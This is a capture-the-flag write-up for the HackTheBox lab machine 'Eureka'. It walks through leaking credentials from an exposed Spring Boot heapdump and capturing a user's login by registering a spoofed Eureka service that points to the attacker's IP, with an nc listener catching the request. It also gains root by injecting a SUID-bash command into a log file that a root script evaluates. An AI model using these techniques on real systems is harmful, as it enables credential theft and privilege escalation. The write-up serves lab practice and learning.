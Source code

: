 ![https://app.hackthebox.com/machines/658](https://app.hackthebox.com/machines/658)

## ENUM

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

No subdomain

```
---- Scanning URL: http://furni.htb/ ----
+ http://furni.htb/about (CODE:200|SIZE:14351)                                                                     
+ http://furni.htb/blog (CODE:200|SIZE:13568)                                                                      
+ http://furni.htb/cart (CODE:302|SIZE:0)                                                                          
+ http://furni.htb/checkout (CODE:302|SIZE:0)                                                                      
+ http://furni.htb/comment (CODE:302|SIZE:0)                                                                       
+ http://furni.htb/contact (CODE:200|SIZE:10738)                                                                   
+ http://furni.htb/error (CODE:500|SIZE:73)                                                                        
+ http://furni.htb/login (CODE:500|SIZE:134)                                                                       
+ http://furni.htb/logout (CODE:200|SIZE:1159)                                                                     
+ http://furni.htb/register (CODE:500|SIZE:137)                                                                    
+ http://furni.htb/services (CODE:200|SIZE:14173)                                                                  
+ http://furni.htb/shop (CODE:200|SIZE:12412)
```

I start exploration via Burp

#### INITIAL ACCES:

```
Copyright © 2025. All Rights Reserved. — Designed with love by [Untree.co](https://untree.co/) Distributed By [ThemeWagon](https://themewagon.com/)
```

Important error page!

```
# Whitelabel Error Page

This application has no configured error view, so you are seeing this as a fallback.

Sun Jul 20 21:12:01 UTC 2025

[64a10489-4927] There was an unexpected error (type=Internal Server Error, status=500).
```

Whitelabel error page = Possible Spring Boot application:
[https://exploit-notes.hdks.org/exploit/web/framework/java/spring-pentesting/](https://exploit-notes.hdks.org/exploit/web/framework/java/spring-pentesting/)

I try a specific dirb:

```
dirb http://furni.htb/ /usr/share/wordlists/seclists/Discovery/Web-Content/spring-boot.txt
```

Results show `/actuator` exposed, including **heapdump**.

I download:

* `/actuator/mappings`
* `/actuator/env`
* `/actuator/heapdump`

Then analyze the heapdump with JDumpSpider:

```
SpringDataSourceProperties
password = 0sc@r190_S0l!dP@sswd
driverClassName = com.mysql.cj.jdbc.Driver
url = jdbc:mysql://localhost:3306/Furni_WebApp_DB
username = oscar190

OriginTrackedMapPropertySource
-------------
management.endpoints.web.exposure.include = *
spring.datasource.driver-class-name = com.mysql.cj.jdbc.Driver
spring.cloud.inetutils.ignoredInterfaces = enp0s.*
eureka.client.service-url.defaultZone = http://EurekaSrvr:0scarPWDisTheB3st@localhost:8761/eureka/
server.forward-headers-strategy = native
spring.datasource.url = jdbc:mysql://localhost:3306/Furni_WebApp_DB
spring.application.name = Furni
server.port = 8082
spring.jpa.properties.hibernate.format_sql = true
spring.session.store-type = jdbc
spring.jpa.hibernate.ddl-auto = none
```

Got DB credentials and I try SSH with `oscar190 / 0sc@r190_S0l!dP@sswd`...It works!


## OWN USER

I need to hack miranda (who probably contains user.txt)

Check ports:

```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                                                                                                               
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN
tcp6       0      0 127.0.0.1:8080          :::*                    LISTEN
tcp6       0      0 :::80                   :::*                    LISTEN
tcp6       0      0 127.0.0.1:8081          :::*                    LISTEN
tcp6       0      0 127.0.0.1:8082          :::*                    LISTEN
tcp6       0      0 :::22                   :::*                    LISTEN
tcp6       0      0 :::8761                 :::*                    LISTEN 
```

So Eureka service is running.

From heapdump:
`http://EurekaSrvr:0scarPWDisTheB3st@localhost:8761/eureka/`

I port-forward:
`ssh -L 8761:127.0.0.1:8761 oscar190@10.10.11.66`

![alt text](note/ctf/asset/HTB_eureka.png)

Now I can register a fake service in Eureka.

I will spoof `USER-MANAGEMENT-SERVICE` and catch requests with `nc -lvnp 8081` in order to get credentials :

```
curl -X POST \
  http://EurekaSrvr:0scarPWDisTheB3st@localhost:8761/eureka/apps/USER-MANAGEMENT-SERVICE \
  -H 'Content-Type: application/json' \
  -d '{
    "instance": {
      "instanceId": "USER-MANAGEMENT-SERVICE",
      "hostName": "10.10.14.204", ===> MY VPN IP
      "app": "USER-MANAGEMENT-SERVICE",
      "ipAddr": "10.10.14.204",
      "vipAddress": "USER-MANAGEMENT-SERVICE",
      "secureVipAddress": "USER-MANAGEMENT-SERVICE",
      "status": "UP",
      "port": { "$": 8081, "@enabled": "true" },
      "dataCenterInfo": {
        "@class": "com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo",
        "name": "MyOwn"
      }
    }
  }'
```

I capture credentials:

```
nc -lvnp 8081  
Listening on 0.0.0.0 8081
Connection received on 10.10.11.66 55388
POST /login HTTP/1.1                                                                                                                                                                                                                        
X-Real-IP: 127.0.0.1                                                                                                                                                                                                                        
X-Forwarded-For: 127.0.0.1,127.0.0.1                                                                                                                                                                                                        
X-Forwarded-Proto: http,http                                                                                                                                                                                                                
Content-Length: 168                                                                                                                                                                                                                         
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8                                                                                                                                    
Accept-Language: en-US,en;q=0.8                                                                                                                                                                                                             
Cache-Control: max-age=0                                                                                                                                                                                                                    
Content-Type: application/x-www-form-urlencoded                                                                                                                                                                                             
Cookie: SESSION=YjI1OTFmY2ItZGFmOC00MDU1LTg1NzgtZTAyOWZhNGNiZjQ4                                                                                                                                                                            
User-Agent: Mozilla/5.0 (X11; Linux x86_64)                                                                                                                                                                                                 
Forwarded: proto=http;host=furni.htb;for="127.0.0.1:59622"
X-Forwarded-Port: 80
X-Forwarded-Host: furni.htb
host: 10.10.14.204:8081

username=miranda.wise%40furni.htb&password=IL%21veT0Be%26BeT0L0ve&_csrf=xSAUVZsT9dGs0fKLyskoRxx9q0mmecXH9eQGgfbWrjcXQyvLpkQhZ6Iql-mB4srpqOQcdHpLhnGQTKfql9BnsJS1mQ9xe03y
```

now i know : miranda-wise / IL!veT0Be&BeT0L0ve

## OWN ROOT

I found this interesting script: `/opt/log_analyse.sh` executed by root.

It parses `application.log` and has a vulnerable line:

```
analyze_http_statuses() {
    # Process HTTP status codes
    while IFS= read -r line; do
        code=$(echo "$line" | grep -oP 'Status: \K.*')
        found=0
        # Check if code exists in STATUS_CODES array
        for i in "${!STATUS_CODES[@]}"; do
            existing_entry="${STATUS_CODES[$i]}"
            existing_code=$(echo "$existing_entry" | cut -d':' -f1)
            existing_count=$(echo "$existing_entry" | cut -d':' -f2)
            if [[ "$existing_code" -eq "$code" ]]; then
                new_count=$((existing_count + 1))
                STATUS_CODES[$i]="${existing_code}:${new_count}"
                break
            fi
        done
    done < <(grep "HTTP.*Status: " "$LOG_FILE")
}
```

Since `-eq` forces arithmetic evaluation, injecting `$(...)` inside the log file executes commands as root.

I belong to the `developers` group so I can edit `/var/www/web/cloud-gateway/log/application.log`.

I inject payload:

```
echo 'HTTP Status: x[$(cp /bin/bash /tmp/bash; chmod u+s /tmp/bash)]' > application.log
```

When root runs the script, it creates `/tmp/bash` with SUID.

Then run:
`/tmp/bash -p`

I'm root !
